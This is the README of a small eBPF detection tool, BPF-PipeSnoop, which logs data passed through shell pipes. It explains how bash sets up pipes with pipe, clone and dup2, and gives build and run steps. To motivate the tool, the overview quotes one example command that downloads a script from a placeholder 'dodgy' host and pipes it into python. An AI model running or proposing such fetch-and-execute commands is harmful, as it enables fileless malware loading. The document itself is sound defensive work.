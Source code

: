 # BPF-PipeSnoop
Example program using eBPF to log data being based in using shell pipes (`|`)
Accompanies my blog [Using eBPF to uncover in-memory loading](https://blog.tofile.dev/2021/02/15/ebpf-01.html)

# Overview
Shells can parse data between programs using pipes, e.g.:
```bash
curl https://dodgy.com/loader.py | python -
```

In this example, a python script is downloaded from the internet and executed,
without the file being written to disk, and its content is not visible on the commnandline.


`pipesnoop` is a demonstration of how you could detect when data is being passed using pipes
and log it, all using eBPF.

# Building
```bash
# First clone the repository and the libbpf submodule
git clone --recursive https://github.com/pathtofile/bpf-pipesnoop.git
cd bpf-pipesnoop/src
make
```
This should generate the program `pipesnoop` in the same directory.

# Running
Just run as root and watch the output:
```bash
sudo ./pipesnoop
```

# How it works
(Note experts will have better descripion than this)
When bash is given a command to run multiple programs with a pipe in between, a number of things happen.
If the example is:
```bash
bash -c "apple | banana"
```
Then this will happen:

### Bash pipe
bash will use the syscall `pipe` to create an annonamous pipe.
This returns two file descriptors, 1 for each end of the pip, e.g. fds `3` and `4`.

### Bash clone
bash will call `clone` twice to create `apple` and `banana`.
Both programs inhearet all of bash's fds, so they also has fds `3` and `4`.
**important note** this means both `apple` and `banana` start running at (almost) the same time,
i.e. `banana` does *not* wait for `apple` to finish before running.

### Apple close and dup2
`apple` will close one end of the pipe e.g. `3`, then call `dup2` to overwrite its `stdout` or `1`
fd with the non-closed end of the pipe, e.g. `dup2(4, 1)`.

### Banana close and dup2
`banana` will close the other end of the pipe, e.g. `4`, then call `dup2` to overwrite its `stdin` or `0`
fd with the non-closed end of the pipe, e.g. `dup2(3, 0)`.

### Apple write
`apple` will start writing data to `stdout` like normal, but due to the `dup2`
call it ends up instead into the pipe.

### Banana read
`banana` will start reading data from its `stdin` like normal, but due to the `dup2`
call it ends up instead reading from the pipe.

### Pipe close
When `apple` closes, it will send an 'end of stream' down the pipe, so `banana` knows it has finished reading.


# Aknowledgements
The skeleton of this project was made with the help of [Libpf-Bootstrap](https://github.com/libbpf/libbpf-bootstrap).

